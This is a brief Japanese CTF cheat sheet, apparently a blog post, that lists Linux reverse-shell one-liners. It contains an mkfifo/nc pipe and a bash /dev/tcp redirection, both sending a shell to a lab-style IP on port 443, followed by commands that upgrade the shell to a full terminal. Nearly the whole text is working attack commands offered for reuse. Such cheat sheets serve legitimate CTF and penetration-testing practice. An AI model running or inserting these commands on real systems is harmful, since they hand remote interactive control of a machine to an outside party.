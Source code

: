```yaml
---
layout: post
title: "linux_reverse_shell"
published : true
tags: CTF Common cheatsheet linux "reverse shell"
---
```

## リバースシェル
コマンド1
```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 443 >/tmp/f
```
コマンド2
```sh
bash -i >& /dev/tcp/10.10.14.14/443 0>&1
```
## シェルのアップグレード
```sh
script /dev/null -c bash
```

## シェルをさらにアップグレード
```sh
(Ctrl + z)
stty raw -echo ; fg
```
